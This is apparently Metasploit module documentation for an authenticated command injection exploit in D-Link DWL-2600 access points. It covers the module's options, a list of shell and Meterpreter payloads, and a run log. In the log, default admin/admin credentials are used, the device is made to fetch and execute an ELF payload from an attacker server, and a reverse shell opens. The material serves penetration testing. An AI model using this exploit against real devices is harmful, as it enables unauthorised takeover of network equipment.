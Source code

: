 # DLINK DWL-2600 Authenticated Command Injection

## Overview
DLINK DWL-2600 WiFi Access Points contain an authenticated command injection vulnerability.  This vulnerability was originally discovered by RAKI BEN HAMOUDA and posted to exploit db here: [https://www.exploit-db.com/exploits/46841](https://www.exploit-db.com/exploits/46841). Original testing was performed against firmware version `4.2.0.15` though other versions are likely affected.

## Options
### HttpUsername
Defaults to admin, this is the username that is used to authenticate to the device
### HttpPassword
Defaults to admin, this is hte password that is used to authenticate to the device
### DOWNHOST
Alternative host to request MIPS payload from.
### DOWNFILE
File name to download - defaults to a random value.
### HTTP_DELAY
Time that the HTTP Server will wait for the ELF payload request.

In addition you will probably want to set `LHOST` and `SRVHOST`.

## Payloads
```
msf5 exploit(linux/http/dlink_dwl_2600_command_injection) > show payloads

Compatible Payloads
===================

   #   Name                                    Disclosure Date  Rank    Check  Description
   -   ----                                    ---------------  ----    -----  -----------
   0   generic/custom                                           normal  No     Custom Payload
   1   generic/shell_bind_tcp                                   normal  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                normal  No     Generic Command Shell, Reverse TCP Inline
   3   linux/mipsle/exec                                        normal  No     Linux Execute Command
   4   linux/mipsle/meterpreter/reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Stager
   5   linux/mipsle/meterpreter_reverse_http                    normal  No     Linux Meterpreter, Reverse HTTP Inline
   6   linux/mipsle/meterpreter_reverse_https                   normal  No     Linux Meterpreter, Reverse HTTPS Inline
   7   linux/mipsle/meterpreter_reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Inline
   8   linux/mipsle/reboot                                      normal  No     Linux Reboot
   9   linux/mipsle/shell/reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
   10  linux/mipsle/shell_bind_tcp                              normal  No     Linux Command Shell, Bind TCP Inline
   11  linux/mipsle/shell_reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Inline

```

## Scenarios
```
msf5 exploit(linux/http/dlink_dwl_2600_command_injection) >          
[*] Started reverse TCP handler on 192.168.0.101:4444                                                                                                                                                                
[*] 192.168.0.100:80 - Trying to login with admin / admin                                             
[+] 192.168.0.100:80 - Successful login admin/admin                                                       
[+] 192.168.0.100:80 - Received Auth token: dXXKqdASZYXccuuzDVICgKzxRyKqBXQE                                                                                                                                         
[*] 192.168.0.100:80 - Starting up our web service on http://192.168.0.101:8080/PxAlyUgUNw ...                                                                                                                       
[*] Using URL: http://192.168.0.101:8080/PxAlyUgUNw                                                       
[*] 192.168.0.100:80 - Asking the DLINK device to download http://192.168.0.101:8080/PxAlyUgUNw           
[*] Sending CGI payload using token: dXXKqdASZYXccuuzDVICgKzxRyKqBXQE                                     
[*] 192.168.0.100:80 - Sending the payload to the server...                                               
[*] 192.168.0.100:80 - Waiting for the victim to request the ELF payload...                               
[*] 192.168.0.100:80 - Asking the DLINK device to chmod PxAlyUgUNw                                        
[*] Sending CGI payload using token: dXXKqdASZYXccuuzDVICgKzxRyKqBXQE                                     
[*] 192.168.0.100:80 - Asking the DLINK device to execute PxAlyUgUNw                   
[*] Sending CGI payload using token: dXXKqdASZYXccuuzDVICgKzxRyKqBXQE                                     
[*] Command shell session 1 opened (192.168.0.101:4444 -> 192.168.0.100:39856) at 2019-12-24 11:08:47 -0600                                                                                                          
[+] Deleted /tmp/lxnlxbhr
```
